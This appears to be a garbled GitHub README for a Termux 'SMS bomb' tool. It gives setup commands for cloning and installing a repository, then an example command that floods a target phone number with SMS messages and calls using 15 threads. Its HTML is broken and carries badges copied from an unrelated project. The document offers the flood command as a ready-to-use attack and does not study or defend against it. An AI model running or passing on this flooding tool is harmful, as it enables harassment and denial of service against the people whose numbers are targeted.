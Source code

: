 <h2 align="centre">🇨🇦Barisflexxq⭐️</h2>

# Termux Sms Bomb Anonymus,

<p align="center"><a href="</h2>

<p align="center">
  <img src="https://i.imgyukle.com/img/2023/05/10/rEQ8Dy.gif">
  
  </p> 

<p align="center"> 
<a href="instagram.com/barisflexxq"><img src="t.me/barisflexxqcolor=black&logo=github&logoColor=black&style=for-the-badge" alt="Stars" /></a> 
<a href="https://github.com/AnonymousX1025/AnonXMusic/network/members"> <img src="https://img.shields.io/github/forks/AnonymousX1025/AnonXMusic?color=black&logo=github&logoColor=black&style=for-the-badge" /></a> 
<a href="https://github.com/AnonymousX1025/AnonXMusic/blob/master/LICENSE"> 
  
  ## Deploy On Termux 💜

- `sudo apt update && apt upgrade`
- `pkg install python`
- `pkg install git`
- ` git clone https://github.com/lizyangelxdark/Smsblasting` 
* `cd Smsblasting` 
* `pip3 install -r requirements.txt` 
* `python3 impulse.py --help` 

# :phone: Example SMS & Call flood: 
```python3 impulse.py --method SMS --time 20 --threads 15 --target +90544909xx```
